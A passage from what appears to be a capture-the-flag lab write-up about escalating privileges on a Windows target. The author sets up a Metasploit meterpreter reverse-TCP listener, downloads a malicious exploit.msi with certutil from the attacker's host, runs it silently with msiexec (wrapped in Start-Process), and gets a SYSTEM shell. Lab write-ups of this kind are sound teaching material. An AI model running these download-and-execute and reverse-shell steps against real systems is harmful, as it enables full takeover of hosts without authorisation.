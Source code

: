```none
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.2
lhost => 10.10.14.2
msf6 exploit(multi/handler) > set lport 9001
lport => 9001
msf6 exploit(multi/handler) > exploit
```

Switching to the server, I fetched the `exploit.msi` file that I just created.

```none
certutil -urlcache -f "http://10.10.14.2:8000/exploits/exploit.msi" "exploit.msi"
```

And ran the exploit on the target...

```none
msiexec /quiet /qn /i exploit.msi
```

However, it was not executing. After some experience with this problem - guessing it is a PowerShell versus Command Prompt problem. There are two ways to get around this. Get another reverse shell as `phoebe` using `cmd.exe`. Or get PowerShell to run the command in `cmd.exe`. The latter sounded easier. Turns out you can use the `Start-Process` cmdlet to run a program in the Command Prompt.

```powershell
Start-Process cmd.exe -ArgumentList "/C msiexec /quiet /qn /i exploit.msi"
```

After running it, got a connection back on my meterpreter listener.

```none
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.2:9001 
[*] Sending stage (175174 bytes) to 10.10.10.239
[*] Meterpreter session 1 opened (10.10.14.2:9001 -> 10.10.10.239:55766) at 2021-08-07 11:02:59 +1200

meterpreter > shell
Process 6604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

Used meterpreter to load a shell, then loaded up PowerShell.

```none
C:\WINDOWS\system32>powershell.exe
powershell.exe
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\WINDOWS\system32> 
```
